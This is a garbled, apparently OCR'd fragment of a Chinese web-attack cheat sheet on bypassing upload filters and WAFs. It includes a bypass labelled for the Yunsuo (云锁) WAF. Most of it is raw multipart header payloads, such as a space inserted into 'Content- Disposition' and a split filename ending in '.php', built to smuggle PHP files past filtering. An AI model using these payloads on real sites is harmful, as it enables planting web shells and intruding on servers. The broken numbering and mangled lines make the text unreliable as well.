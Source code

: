 ```
源代码:
Content-Disposition: form-data; Content-Type: image/png
绕过内容如下：
Content- Disposition: form-data; 085733uykwusqcs8vw8wky.png
Content-Disposition 修改为 Content-空格Disposition

```

13.=== 绕过

```
Content- Disposition: form-data; 

```

14\. 云锁上传绕过

```
Content- Disposition: form-data; 123.
11.php"

```

![](https://mmbiz.qpic.cn/mmbiz_jpg/flBFrCh5pNaa0sMzjVQhaSFz92ic4zLHs48xTHgBrC1FVsyg1DwUdOdgRH9qCRj8IIZjq7zA824a1Zh83DCtzibA/640?wx_fmt=jpeg)